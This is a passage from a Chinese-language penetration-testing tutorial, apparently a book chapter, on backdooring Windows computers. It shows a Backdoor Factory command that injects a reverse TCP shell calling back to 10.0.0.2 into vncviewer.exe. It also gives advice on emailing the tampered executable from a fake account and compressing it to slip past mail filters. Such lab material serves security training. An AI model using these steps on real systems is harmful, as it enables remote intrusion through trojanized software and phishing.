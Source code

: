 ```
backdoor-factory -cave-jumping -f /usr/share/windows-binaries/vncviewer.exe -H 10.0.0.2 -P 43434 -s reverse_shell_tcp_inline 
```

然后，后门工厂继续并提供将外壳代码注入二进制文件中所有空隙或洞穴的选项：

![](img/a5df754f-1f57-41b9-a382-f03992a1216f.png)

我们将选择洞穴 1：

![](img/6d2fbe20-617e-428e-afeb-d6f2c5db0cf8.png)

`backdoored`目录在根`home`目录`~/backdoored/`中，所以很容易找到。我们可以使用该集合将此篡改的文件推送到群发邮件中，但您可以通过电子邮件将其从伪造帐户发送到 Windows 10 邮箱，以查看它是否可以清除防病毒障碍。该可执行文件必须经过压缩才能通过邮件服务器上的过滤器，一旦在 Windows 10 计算机上解压缩，它就会作为恶意软件文件被清除。

Windows 10 的默认防病毒软件找到该文件时，与它从集合中找到的另一个文件相同。未打补丁的旧版本 Windows 显然存在风险。

# 总结

在本章中，您已经看到了在 Windows 计算机上获得控制和设置后门的五种不同方法，从 Ncat 脚本、Metasploit MeterMeter 攻击、添加投递箱、使用 SET 发送钓鱼电子邮件，以及使用后门工厂使用外壳脚本后门创建可执行文件。
